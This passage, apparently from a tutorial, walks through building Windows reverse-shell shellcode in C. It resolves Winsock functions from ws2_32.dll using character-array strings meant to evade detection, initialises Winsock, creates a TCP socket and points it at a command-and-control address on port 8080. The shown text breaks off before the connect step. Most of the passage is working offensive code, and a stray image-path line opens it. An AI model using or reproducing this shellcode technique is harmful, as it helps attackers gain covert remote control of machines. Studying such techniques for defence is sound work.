 next, we load `ws2_32.dll` using our resolved `LoadLibraryA`, followed by resolving each networking function.

```c
CHAR ws2_32_c[] = {'w', 's', '2', '_', '3', '2', '.', 'd', 'l', 'l', 0};
ws2_32dll = (UINT64)((LOADLIBRARYA)LoadLibraryAFunc)(ws2_32_c);

CHAR wsastartup_c[] = { 'W', 'S', 'A', 'S', 't', 'a', 'r', 't', 'u', 'p', 0 };
WsaStartupFunc = GetSymbolAddress((HANDLE)ws2_32dll, wsastartup_c);

CHAR wsasocket_c[] = { 'W', 'S', 'A', 'S', 'o', 'c', 'k', 'e', 't', 'A', 0};
WsaSocketFunc = GetSymbolAddress((HANDLE)ws2_32dll, wsasocket_c);

CHAR inetaddr_c[] = { 'i', 'n', 'e', 't', '_', 'a', 'd', 'd', 'r', 0};
InetAddrFunc = GetSymbolAddress((HANDLE)ws2_32dll, inetaddr_c);

CHAR htons_c[] = { 'h', 't', 'o', 'n', 's', 0};
HtonsFunc = GetSymbolAddress((HANDLE)ws2_32dll, htons_c);

CHAR wsaconnect_c[] = { 'W', 'S', 'A', 'C', 'o', 'n', 'n', 'e', 'c', 't', 0};
WsaConnectFunc = GetSymbolAddress((HANDLE)ws2_32dll, wsaconnect_c);

CHAR closesocket_c[] = { 'c', 'l', 'o', 's', 'e', 's', 'o', 'c', 'k', 'e', 't', 0};
CloseSocketFunc = GetSymbolAddress((HANDLE)ws2_32dll, closesocket_c);

CHAR wsacleanup_c[] = { 'W', 'S', 'A', 'C', 'l', 'e', 'a', 'n', 'u', 'p', 0};
WsaCleanupFunc = GetSymbolAddress((HANDLE)ws2_32dll, wsacleanup_c);
```

### socket creation

following the resolution of the networking functions, we can then establish a socket. 

```c
SOCKET mySocket;
struct sockaddr_in addr;
WSADATA version;
((WSASTARTUP)WsaStartupFunc)(MAKEWORD(2,2), &version);
```

this initializes the [Windows Socket API (WSA).](https://en.wikipedia.org/wiki/Winsock) `MAKEWORD(2,2)` specifically requests v2.2 of the Winsock specification.

the socket is then created with specific parameters.

```c
mySocket = ((WSASOCKETA)WsaSocketFunc)(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
```

`AF_INET` specifies `IPv4`, `SOCK_STREAM` indicates `TCP`, `IPPROTO_TCP` confirms the protocol. the trailing 0s are for optional parameters.

next, we address the socket.

```c
addr.sin_family = AF_INET;
CHAR C2Server[] = { '1', '9', '2', '.', '1', '6', '8', '.', '0', '.', '1', '4', '2', 0 };
addr.sin_addr.s_addr = ((myINET_ADDR)InetAddrFunc)(C2Server);
addr.sin_port = ((myHTONS)HtonsFunc)(8080);
```

